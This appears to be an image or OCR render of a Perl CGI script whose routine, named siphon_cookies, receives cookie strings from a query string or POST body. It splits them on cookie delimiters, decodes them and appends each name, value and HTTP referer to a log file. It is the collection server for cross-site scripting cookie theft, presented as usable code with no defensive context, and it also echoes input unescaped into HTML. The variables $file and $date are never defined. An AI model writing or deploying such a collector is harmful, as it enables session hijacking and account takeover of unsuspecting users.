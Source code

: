 ```perl
#Print HTML if tested from a browser
print "Content-type: text/html\n\n";

#Open Log File in appended mode
open(our $LOG,">>$file");

#Collect HTML Post Data
siphon_cookies();

#Close Log File
close($LOG);

sub siphon_cookies {
        # Put the posted data into variables
        if($ENV{'QUERY_STRING'} ne "") {
                $buffer = $ENV{'QUERY_STRING'};
        }
        elsif($ENV{'CONTENT_LENGTH'} ne "") {
                #Read the input stream using the below line
                read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
        }
        elsif($#ARGV > -1) {
                chomp($buffer = $ARGV[0]);
        }

	#print "buffer: $buffer<BR>\n";


	#Place buffer into the array @pairs, delimited by the ";%20"
	#A ";" plus "%20" equals a ";" and a space	
        @pairs = split(/;%20/, $buffer);

	print "----------------------------------<br>\n";
	print $LOG "----------------------------------\n";

	$HTTP_REFERER = $ENV{'HTTP_REFERER'};
	print "HTTP_REFERER: $HTTP_REFERER<BR>\n";
	print $LOG "HTTP_REFERER: $HTTP_REFERER\n";

	#Enumerate through the @pairs array
        foreach $pair (@pairs) {
		#splits each name/value pair on the equal sign delimiter
                ($name, $value) = split(/=/, $pair);

		#translates every "+" sign back to a space
                $value =~ tr/+/ /;

		#substitute every %HH hex pair back to its equivalent ASCII character, using the pack() function
                $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;

		#store the values into a hash called %FORM
                $FORM{$name} = $value;

                print "DATE: $date; NAME: $name;VALUE: $value<BR>\n";
                print $LOG "DATE: $date; NAME: $name; VALUE: $value\n";
        }

	print "----------------------------------<br>\n";
	print $LOG "----------------------------------\n";

}
```